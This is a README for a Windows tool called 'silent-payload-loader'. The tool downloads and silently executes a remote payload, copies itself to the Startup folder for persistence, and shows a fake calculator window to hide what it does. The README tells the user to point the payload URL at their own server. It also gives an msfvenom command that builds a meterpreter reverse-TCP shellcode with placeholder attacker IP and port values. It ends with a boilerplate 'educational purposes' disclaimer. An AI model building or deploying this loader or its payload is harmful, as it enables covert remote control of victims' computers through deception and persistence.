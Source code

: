 # silent-payload-loader

**silent-payload-loader** is a lightweight Windows tool designed to download and execute a payload from a remote server while ensuring persistence by copying itself to the Windows Startup folder. The tool runs silently in the background, disguising its actions with a fake calculator interface in the foreground.

**Note**: You need to change the defined PAYLOAD in line 15 to your server hosting the payload.bin

## Features:
- Downloads and executes a remote payload.
- Ensures persistence by copying itself to the Windows Startup folder.
- Hides its malicious actions by running a fake calculator.
- Executes payloads silently in the background.

## Generate shellcode:
Example for a meterpreter (64bit): 
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f raw -o payload.bin
```

## Disclaimer:
This tool is intended for educational and research purposes only. Do not use it without explicit permission. The author is not responsible for any misuse.
